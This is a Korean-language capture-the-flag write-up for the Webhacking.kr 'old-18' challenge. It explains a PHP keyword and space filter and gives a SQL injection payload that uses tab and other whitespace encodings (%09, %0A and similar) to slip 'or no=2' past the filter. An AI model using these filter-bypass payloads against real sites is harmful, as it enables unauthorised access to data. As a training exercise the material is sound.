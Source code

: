 ```yaml
---
title: ["[Webhacking.kr] old-18 (sqli - 10)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli]
---
```

## Intro
![문제 설명](assets/img/writeup/webhacking.kr/old-18/recon.png)

`result[id]`가 `admin`이 되어야 한다.

## Analysis

`preg_match("/ |\/|\(|\)|\||&|select|from|0x/i",$_GET['no'])`  
SQL 인젝션을 방지하기 위한 필터링이다.  
이렇게 SQL 구문이 필터링되어 있으면, 대부분 SQLi 문제라고 보면 된다.  
`&nbsp;`, `/`, `(`, `)`, `|`, `&`, `select`, `from`, `0x`를 필터링하며, 대소문자 구분을 하지 않는다.  

`select id from chall18 where id='guest' and no=$_GET[no]`  
타겟 쿼리는 다음과 같으므로,  
`select id from chall18 where id='guest' and no=2 or no=2`로 쿼리를 바꾸면 된다.  

하지만, `&nbsp;`(%20)이 필터링 된다.  

[No Space (%20) - bypass using whitespace alternatives](https://book.hacktricks.xyz/pentesting-web/sql-injection)  
```
?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--
```

## Payload

` `  대신에 `%09`를 써보자.  

```
/?no=2%09or%09no=2
```